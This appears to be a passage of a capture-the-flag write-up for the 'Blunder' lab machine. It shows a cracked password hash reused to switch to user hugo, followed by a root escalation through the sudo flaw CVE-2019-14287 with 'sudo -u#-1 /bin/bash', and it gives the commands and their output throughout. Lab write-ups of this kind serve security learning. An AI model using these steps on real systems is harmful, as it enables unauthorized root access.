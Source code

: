 There is a password hash. Using [crackstation.com](http://crackstation.com), I could crack the password: `Password120`.

Hugo may reused the password, so maybe I can try to upgrade the shell to hugo:

```bash
su hugo
Password: Password120
whoami
hugo
```

And a shell as user hugo spawned.

### User Flag

---

Time to grab the user flag:

```bash
hugo@blunder:~$ ls
ls
Desktop    Downloads  Pictures  Templates  Videos
Documents  Music      Public    user.txt
hugo@blunder:~$ cat user.txt
cat user.txt
107e**************************d7
```

## hugo → root

---

I used linpeas to find a way to privesc. I found the following that might be exploitable:

```bash
╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version
Sudo version 1.8.25p1
```

The version as it is, is not vulnerable.... But with the configurations of the machine it is. I found a CVE that matches my state of the machine: 

[CVE-2019-14287 - Sudo Vulnerability Cheat Sheet](https://www.whitesourcesoftware.com/resources/blog/new-vulnerability-in-sudo-cve-2019-14287/)

What happens here is that sudo blocks me from executing commands as user root. But when I use the user id -1 that username check is ignored and the command is run as root. This can be done by using the -u#-1 option for sudo:

```bash
hugo@blunder:/var/www/bludit-3.9.2/bl-content/tmp$ sudo -u#-1 /bin/bash
sudo -u#-1 /bin/bash
Password: Password120

root@blunder:/var/www/bludit-3.9.2/bl-content/tmp# whoami
whoami
root
```
